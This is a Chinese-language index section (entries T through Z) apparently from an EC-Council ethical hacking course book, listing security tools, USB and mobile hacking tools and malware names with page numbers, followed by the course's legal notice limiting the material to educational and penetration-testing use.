- `T-BEAR（瞬态蓝牙环境音频录音器）`，3-5-3-6
- `Tcpdump`，1-22, 1-23
- `TCP Wrappers`，1-34
- `TigerSuite PDA`，4-19-4-20, 4-21
- `Timbersee`，1-41
- `追踪`，6-7
- `Tripwire`，1-38
- `特洛伊木马`，4-13
- `Tuxit`，1-37

## U

- `uFS 整数溢出`，2-3
- `USB Blocker`，7-13, 7-15
- `USB CopyNotify!`，7-15
- `USBDevio`，7-12-7-13, 7-14
- `USBDumper`，7-11, 7-12
- `USB Hackcave`，7-12
- `USBLlyzer`，7-17-7-18
- `USB PC Lock`，7-18, 7-19
- `USB 端口`，7-2
- `USB Switchblade`，7-11
- `USB（通用串行总线）设备`
  - `针对它的攻击`，7-2-7-3
  - `定义`，7-2
  - `黑客对策`，7-19
  - `黑客工具`，7-11-7-12
  - `简介`，7-2
  - `相关安全工具`，7-12-7-18, 7-19
  - `病毒和蠕虫`，7-3-7-11
- `UserNotificationCenter 权限提升`，2-4

## V

- `VirusBarrier`，2-7, 2-8
- `Virus Chaser USB`，7-18, 7-19
- `病毒`
  - `蓝牙`，5-7
  - `Mac OS X`，2-5-2-7
  - `移动设备`，4-13-4-14
  - `RFID`，6-10-6-11
  - `USB 设备`，7-3-7-5

## W

- `W32/Dzan-C`，7-5
- `W32/Fujacks-AK`，7-5
- `W32/Fujacks-E`，7-5
- `W32/Hairy-A`，7-7-7-8
- `W32/Hasnot-A`，7-3-7-4
- `W32/LiarVB-A`，7-6-7-7
- `W32/Madang-Fam`，7-3
- `W32/QQRob-ADN`，7-8-7-10
- `W32/SillyFD-AA`，7-6
- `W32/SillyFD-BK`，7-6
- `W32/VBAt-B`，7-10-7-11


- Waldo Beta，3-11-3-12
- Whisper，1-40
- WinCE4.Dust，4-13
- Windows Mobile 操作系统，4-4-4-5
- Wireshark，1-26, 1-27
- 蠕虫
  - 蓝牙，5-7
  - RFID，6-9-6-10
  - USB 设备，7-3-7-11
- Worm.SymbOS.Lasco.a，5-7

### Y
- Yersinia，3-17, 3-18

### Z
- Zebra，3-17, 3-18

---

### 通用通知

《道德黑客与对策》课程的任务是进行教育、介绍并演示黑客工具，仅用于渗透测试目的。你不会将新获得的技能用于非法或恶意攻击，也不会使用此类工具试图破坏任何计算机系统，并且你将就这些工具的使用或误用（无论故意与否）赔偿 EC-Council 及其合作伙伴免受所有责任。

EC-Council 提供 CEH 课堂中使用的黑客技能和工具，供教育使用。这些黑客工具并非由 EC-Council 开发，在许多情况下是由安全社区提交的。EC-Council 不对这些材料的适当或不适当使用造成的任何损害承担责任，也不保证这些材料适用于任何特定目的或具有可操作性。

CEH 课程中使用的黑客工具仅用于研究和教育目的。这些工具的主要意图是通过演示绕过网络安全及各种保护方法及其固有缺陷的利用方法和技巧，为用户提供难以找到的、与网络安全及其保护方法相关的研究或自学内容。我们希望你能更意识到当今社会中潜伏的危险，并学习如何利用即将学到的知识保护自己免受其害。为了继续，你必须接受你只会将这些信息用于教育和研究目的。

虽然持有本培训中包含的信息或程序并不违反任何法律，但实际使用或实施其中某些程序或内容可能会违反美国联邦及其他法律。因此，指示用户不要使用本培训中包含的任何可能违反法律或侵犯他人权利（包括知识产权）的程序或内容。我们仅出于研究和教育目的提供它们。
